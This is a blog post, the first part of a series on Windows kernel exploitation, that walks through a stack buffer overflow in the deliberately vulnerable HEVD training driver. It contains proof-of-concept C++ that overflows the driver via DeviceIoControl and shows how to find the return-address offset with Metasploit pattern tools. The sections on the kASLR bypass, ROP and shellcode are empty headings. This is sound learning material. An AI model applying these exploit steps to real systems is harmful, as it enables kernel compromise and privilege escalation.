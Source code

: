 ```yaml
---
title: Windows Kernel Exploitation Part 1 - Exploitation Stack Overflows
date: 2024-08-24 11:00:00 -0500
categories: [WKE, pwn]
tags: [windows, kernel, pwn, wke]
author: oreo
dsecription: Windows Kernel Exploitation Part 1 - Exploiting Stack Overflows
---
```


# Introduction
{: .mt-4 .mb-0 }

This series will highlight my experience with the HackSys Extremely Vulnerable Driver (HEVD) as I delve into learning Windows kernel exploitaiton :tada: I intentionally left out the initial steps in getting started - loading & running the driver and setting up kernel debugging - as I have already wrote an article on it [here](https://0reome1ster.github.io/posts/Windows-Kernel-Debugging). For this and future WKE posts, feel free to checkout my [WKE repo](https://github.com/0reome1ster/WKE) to see full source as opposed to code snippets! I am following a guide, <https://mdanilor.github.io/posts/hevd-0/>, to help orient myself during this first exploit so check it out!

# The Initial Crash
{: .mt-4 .mb-0 }

### Vulnerable Code
{: data-toc-skip='' .mt-4 .mb-0 }

```cpp
(...)
    ULONG KernelBuffer[BUFFER_SIZE] = { 0 };

(...)

    ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(UCHAR));

    DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
    DbgPrint("[+] UserBuffer Size: 0x%zX\n", Size);
    DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
    DbgPrint("[+] KernelBuffer Size: 0x%zX\n", sizeof(KernelBuffer));

(...)

    DbgPrint("[+] Triggering Buffer Overflow in Stack\n");

    //
    // Vulnerability Note: This is a vanilla Stack based Overflow vulnerability
    // because the developer is passing the user supplied size directly to
    // RtlCopyMemory()/memcpy() without validating if the size is greater or
    // equal to the size of KernelBuffer
    //

    RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);

(...)
```

The above comment succintly summarizes the vulnerability within `TriggerBufferOverflowStack` - the user-controlled size variable is passed to `RtlCopyMemory` (a Windows API equivalent of memcpy) without any size checks. This allows an attacker to write an arbitrary amount of data to the destination buffer `KernelBuffer`, enabling a stack buffer overflow.

> This is a stack BoF because `KernelBuffer` is allocated on the stack; it could be a heap BoF if it was allocated via APIs such as ExAllocatePool and ExAllocatePoolWithTag
{:.prompt-info} 

### PoC Snippet
{: data-toc-skip='' .mt-4 .mb-0 }
```cpp
void StackOverflow(int pid)
{
	HANDLE driverHandle = GetHandle(DEVICE_NAME);
	int bufSize = 4096;
	DWORD bytesReturned = 0;

	LPVOID buf = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bufSize);

	if (buf == NULL)
		return;

	memset(buf, 'A', bufSize);

	DeviceIoControl(driverHandle, HEVD_StackOverflow, buf, bufSize, NULL, 0, &bytesReturned, NULL);

	HeapFree(GetProcessHeap(), 0, buf);
}
```

### Triggering the BoF
{: data-toc-skip='' .mt-4 .mb-0 }

Running the exploit code, we can see we triggered a crash.

![Buffer Overflow BSoD](/assets/WKE/StackOverflow/StackOverflow1.png)

# Determining Offset
{: .mt-4 .mb-0 }

Since we know that it roughly takes 4096 (0x1000) bytes to trigger the BoF, we can use Metasploit Framework's `msf-pattern_create` tool to generate a unqiue paylod to quickly ascertain the offset.

![msf-pattern_create](/assets/WKE/StackOverflow/pattern_create.png)

```cpp
const char* pattern = "<truncated for brevity>";

void StackOverflow(int pid)
{
	HANDLE driverHandle = GetHandle(DEVICE_NAME);
	int bufSize = 4096;
	DWORD bytesReturned = 0;

	LPVOID buf = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bufSize);

	if (buf == NULL)
		return;

	// memset(buf, 'A', bufSize);
	memcpy(buf, pattern, bufSize);

	DeviceIoControl(driverHandle, HEVD_StackOverflow, buf, bufSize, NULL, 0, &bytesReturned, NULL);

	HeapFree(GetProcessHeap(), 0, buf);
}
```

> I do recognize that I could've directly passed `pattern` through the ioctl call; however, I didn't feel like changing variable names back-and-forth.
{: .prompt-info}

I recompiled my exploit binary and re-ran it on the VM to obtain the payload offset to overwrite RIP with.

![Stack BoF for offset](/assets/WKE/StackOverflow/StackOverflow2.png)

We can ignore the first column, `Child-SP`, and solely focus on `RetAddr`. We can see that the address it's trying to return to looks like a sequence of ASCII - 0x43, 0x32, 0x27, etc. We can extract this and paste it into another Metasploit Framework tool called `msf-pattern_offset` (very convenient naming).

![msf-pattern_offset](/assets/WKE/StackOverflow/pattern_offset.png)

> I added the help page because I forgot the flags and I thought it'd be good to show
{: .prompt-info}

Now that we know the offset, 2072 bytes, we can ROP our way into an Elevation of Privilege (EoP)...

# Writing Exploit Chain
{: .mt-4 .mb-0 }

## Bypassing kASLR - Leaking Kernel Base
{: .mt-4 .mb-0 }

## ROP-ing to Shellcode
{: .mt-4 .mb-0 }

## Writing Shellcode
{: .mt-4 .mb-0 }

# :balloon: Party Time :balloon:
{: .mt-4 .mb-0 }